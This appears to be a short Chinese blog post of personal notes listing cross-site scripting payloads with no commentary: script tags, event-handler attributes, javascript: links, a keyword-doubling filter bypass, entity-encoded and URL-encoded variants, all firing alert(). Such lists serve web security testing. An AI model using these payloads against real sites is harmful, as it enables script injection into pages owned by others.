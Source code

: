 ```yaml
---
layout: post
title: "xss的记录"
date: 2018-10-05
category: web安全
tags: xss web安全
---
```

xss的payload
1
<script>alert(/xss/)</script>
2
"><script>alert(/xss/)</script>

3

'onmouseover='alert(/xss/)'

4
" oninput=alert`xss`//
" onfocus=alert`xss` autofocus= "
" onchange=alert`xss` "


<img src=x onerror=alert(/xss/)>

5

"><a href=javascript:alert(/xss/)>

6
"><A HREF=javascript:alert(/xss/)>

7
"><scrscriptipt>alert(/xss/)</scscriptript>

8
html 字符实体编码转换
java&#x73;cript:alert(1)

9
java&#x73;cript:alert(1)/*http://*/

10
&t_sort=a" onclick="alert(1)"

15
urlencode
%0a%0d
<img%0asrc=xx%0aonerror=alert(/xss/)>

